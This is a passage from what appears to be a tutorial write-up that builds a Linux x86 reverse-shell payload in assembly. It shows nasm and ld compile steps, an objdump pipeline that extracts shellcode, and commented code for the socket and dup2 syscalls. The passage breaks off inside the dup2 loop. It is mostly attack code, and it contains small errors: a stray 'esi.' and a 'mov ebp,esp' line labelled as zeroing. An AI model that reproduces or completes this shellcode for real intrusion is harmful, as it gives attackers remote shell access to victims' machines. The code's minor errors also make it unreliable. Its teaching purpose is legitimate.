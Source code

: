 It looks to work! It's time to dive into the actual implementation in Assembly. 
The keypoints while writing the following piece of code are:

* Syscalls are called using the opcode *0x80* and the related involved registers have to be set accordingly
* Syscalls numbers are located at */usr/include/i386-linux-gnu/asm/unistd_32.h*
* The use of man 2 is fundamental
* The use of *gdb* to verify the state of the registers, while the program is in execution, is crucial

```
; Author :  Alessio Parzian
; Filename: rev_shell.asm

; compile with:
; 	nasm -f elf32 rev_shell.asm
;	ld -o rev_shell rev_shell.o
; extract shellcode with:
; 	objdump -d rev_shell | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'

global _start

section .text

    _start:
        ;
        ; Syscall numbers for x86 can be found: /usr/include/i386-linux-gnu/asm/unistd_32.h
        ;
        ; ==================
        ; prepare registries
        ; ==================
        mov ebp,esp             ; zeroing register
        xor eax,eax             ; zeroing register
        xor ebx,ebx             ; zeroing register
        xor ecx,ecx             ; zeroing register
        xor edx,edx             ; zeroing register
        xor esi,esi.            ; zeroing register
        ; ==================
        ; socket syscall
        ; ==================
        ; > man 2 socket 
        ; int socket(int domain, int type, int protocol);
        ; 	AF_INET is defined as 2 as listed in /usr/include/asm-generic/socket.h
        ; 	SOCK_STREAM is defined as 1 as listed in /usr/include/asm-generic/socket.h
        ; ------------------
        mov ax, 0x167           ; syscall number
        mov bl, 0x2             ; AF_INET - IPv4 Internet protocols
        mov cl, 0x1             ; SOCK_STREAM - Provides sequenced, reliable, two-way, connection-based byte streams.  An out-of-band data transmission mechanism may be supported.
                                ; edx is left to 0 as no additional flag is required to be set for our goal
        int 0x80                ; interrupt to ask for syscall execution
        mov esi, eax            ; save socket file descriptor to ESI register
        ; ==================
        ; dup2 syscall
        ; ==================
        ; > man 2 dup2
        ; int dup2(int oldfd, int newfd);
        ; ------------------
        mov ebx, esi            ; move the file descriptor for the accepted socket as parameter
        xor ecx, ecx            ; zeroing register
        mov cl, 0x3             ; set counter for loop, three loops are executed for stdin, stdout, stderr
        dupin:
```